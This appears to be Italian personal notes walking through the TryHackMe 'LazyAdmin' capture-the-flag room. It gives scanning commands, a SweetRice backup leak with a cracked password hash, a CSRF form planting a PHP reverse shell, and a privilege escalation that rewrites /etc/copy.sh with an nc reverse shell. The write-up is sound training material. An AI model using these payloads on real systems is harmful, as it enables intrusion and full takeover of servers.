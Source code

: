 
#tryhackmelabs #laboratorio 

https://tryhackme.com/room/lazyadmin

```
sudo nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.10.174.4 -oG risultatoscan
```

```
sudo nmap -sC -sV -p 22,80 10.10.174.4 -oN risultatoscan2
```

```
gobuster dir -u http://10.10.174.4:80 -w /usr/share/wordlists/dirb/common.txt -t50
```

```
http://10.10.174.4/content/
```

```
gobuster dir -u http://10.10.174.4/content/ -w /usr/share/wordlists/dirb/common.txt -t50
```

```
http://10.10.174.4/content/_themes/
http://10.10.174.4/content/as/
http://10.10.174.4/content/attachment/
http://10.10.174.4/content/images/
http://10.10.174.4/content/inc/
/index.php            (Status: 200)
/js                   (Status: 301) 
http://10.10.174.4/content/js/

```

```
searchsploit Sweetrice 
```

```
SweetRice 1.5.1 - Backup Disclosure  | php/webapps/40718.txt
```
per info su come sfruttare exploit
```
searchsploit -x php/webapps/40718.txt
```
	(q=exit)
```
http://10.10.174.4/content/inc/mysql_backup/
```
scarichiamo db
lo apriamo
```
cat Downloads/mysql_bakup_20191129023059-1.5.1.sql
```
troviamo una password hashata
```
42f749ade7f9e195bf475f37a44cafcb
```
vediamo che tipo di hash è con
```
hashid 42f749ade7f9e195bf475f37a44cafcb
```
oppure
https://crackstation.net/
```
Password123
```
e un utente
```
manager
```
usiamo ora che siamo admin l'altra vulnerabilità
```
searchsploit -x php/webapps/40700.html
```
cerca in https://www.exploit-db.com/

Nella sezione Ads aggiungiamo lo script adattato e lo chiamiamo hacked
facciamo done
```
<html>
<body onload="document.exploit.submit();">
<form action="http://http://10.10.174.4/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.21.9.220/1234 0>&1'");
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>
```

ci mettiamo in ascolto
```
nc -lvnp 1234
```
eseguiamo la reverse shell
```
http://10.10.174.4/content/inc/ads/
```
ottenuta!
otteniamo una shell migliore facendo
```
 python -c 'import pty; pty.spawn("/bin/bash")'
```

```
cd /home/itguy
```

```
cat user.txt
```
user flag!
```
THM{63e5bce9271952aad1113b6f1ac28a07}
```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
sudo -l
```
Con questa configurazione nel file sudoers, qualsiasi utente può eseguire il comando
```
cat /home/itguy/backup.pl
```
Il comando "sh" viene utilizzato per eseguire script di shell. "/etc/copy.sh" è il percorso dello script di shell che viene eseguito.
```
 cat /etc/copy.sh
```
sembra una reverse shell
```
cd
```

```
cd /etc
```

```
nano copy.sh
```
non posso utilizzare nano! procediamo con echo
```
cat copy.sh
```

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

lo modifico con IP attaccante

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.21.9.220 5554 >/tmp/f" > copy.sh
```

ci mettiamo in ascolto
```
nc -lvnp 5554
```

```
sudo /usr/bin/perl /home/itguy/backup.pl
```
e siamo root!
- -- -

==altro metodo!==

```
echo "/bin/bash" > copy.sh
```

```
cat copy.sh
```

```
sudo /usr/bin/perl /home/itguy/backup.pl
```
e siamo root!

```
cd /root
```

```
cat root.txt 
```

```
THM{xxxxxxxxxxxxxxxxxx}
```




